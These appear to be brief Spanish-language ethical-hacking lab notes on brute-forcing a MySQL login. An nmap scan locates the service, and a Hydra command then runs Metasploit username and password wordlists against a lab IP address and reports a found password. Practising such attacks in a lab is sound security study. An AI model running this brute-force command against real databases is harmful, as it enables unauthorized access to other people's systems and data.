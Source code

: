 #Hydra #PinguinoMario #HackingEtico 
Hacemos un reconocimiento con nmap para saber por donde está corriendo la base de datos MySQL:
![[Pasted image 20230727155853.png]]
Lo haríamos con este comando:
```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.119.223.3 mysql
```
Y nos encuentra la contraseña:
![[Pasted image 20230727160938.png]]
